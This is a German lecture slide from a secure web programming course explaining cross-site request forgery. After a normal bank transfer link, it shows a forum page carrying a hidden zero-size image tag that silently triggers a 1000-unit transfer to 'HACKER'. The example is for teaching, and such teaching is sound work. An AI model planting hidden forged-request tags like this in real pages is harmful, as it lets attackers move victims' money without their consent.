

Überblick
# CSRF (XSRF), Cross-Site-Request-forgery
Seite: Bank
<a href=http://bank.com/transfer.do?dest=BOB&amount=100>
	Geld an Bob zu überweisen
</a>

1
Seite: Internet-Forum
<img src="http://bank.com/transfer.do?dest=HACKER&amount=1000" width= "0" height= "0" alt= "" />

2
Sichere Web-Programmierung
14.07.2021
13